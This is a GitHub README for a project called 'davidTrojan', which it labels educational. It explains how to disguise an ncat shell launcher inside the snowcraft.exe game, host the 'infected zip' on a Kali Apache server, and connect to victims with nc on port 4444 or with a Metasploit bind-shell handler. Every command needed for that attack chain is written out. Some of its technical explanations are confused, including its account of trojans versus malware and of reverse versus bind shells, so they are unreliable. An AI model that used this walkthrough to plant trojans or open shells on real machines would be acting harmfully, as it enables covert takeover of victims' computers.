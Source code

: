 ## davidTrojan

This is a simple script (exploit) built with C that tries to demonstrate how to shell shoveling using the Ncat software and the famous snowcraft.exe PC Game. 

This software is intended for educational purposes; the whole experience was developed in controlled VMs that will be explained later.

#### Ncat

It is a software that lets you read and write packets (data transmitted) from a network. Actually it's very useful for things like

1. Monitoring packets on TCP and UDP ports
2. Debugging in **victims machines** without any notice.

#### Explanation

In common scenarios, we have a client machine that represents the victim and a server that hosts the infected file, usually exposed via .exe files (for Windows OS environments).

So, in our victim machine, we have a Windows 7 Home edition, 64 bits, with a bridged network with the [192.168.1.119 ] IP address. The server is a Kali Linux that serves an **infected zip** (please refer to the repo) file using **Apache web server**, with the [192.168.1.133] IP Address.

#### Apache on Kali

Checking the Apache service status (it's already installed)

`systemctl status apache2`

Starting the service

`systemctl start apache2`

Placing the infected files for the victims

`/var/www/html/` directory

#### Trojan vs Malware.

There's a big and principal difference between them, but in simple words, the Malware replicates and infects other machines, and Trojans do not; they locate and hide in memory, and it's harder to detect.

#### Accessing the infected Zip

Since we are using Apache, and both OS are bridged to a main network configuration, both machines have different IP addresses on the same range. So, it's like accessing a simple web server; this time, instead, we use the Host (Kali) IP address to get in.

`http://[IP]/any-directory-created`-for-the-game

When we run the .exe "game" file, it displays the **snowcraft.exe** game, but also triggers the **ncat** command on a **non-common port**, which lets us monitor packets from the network for a later reverse shell.

#### Reverse Shell

If the **Ncat** is running in client mode, on the server side we just `nc [IP][Port]` and we will have control over the victim machine while the program is running.

For this example, we just run: `nc 192.168.1.113 4444` where the **4444** is the **non-common port** for establishing the communication. This previous example works because we know the victim's IP address. 

In case the client is on another network, we can use some alternatives, like checking the Apache server access.log file for getting the victim's IP addresses, or we can run the **nc command** without the IP address, resulting in something like: `nc -l -p 4444`

The last one will work only if the nc utility is running in client mode.

#### Other way: using the Metasploit Framework.

This example is for using the Metasploit framework for finding the user's IP address and accessing it (on Kali).

`msfconsole (accessing the Metasploit framework)`

`msf> use exploit/multi/handler (it's like a module for resolving payloads)`

`msf> set PAYLOAD windows/shell_bind_tcp (connection type)`

`msf> set LPORT 4444`

`msf> set RHOST [target IP address]`

`msf> exploit (running exploit)`

## Credits
[David Lares S](https://davidlares.com)

## License
[MIT](https://opensource.org/licenses/MIT)
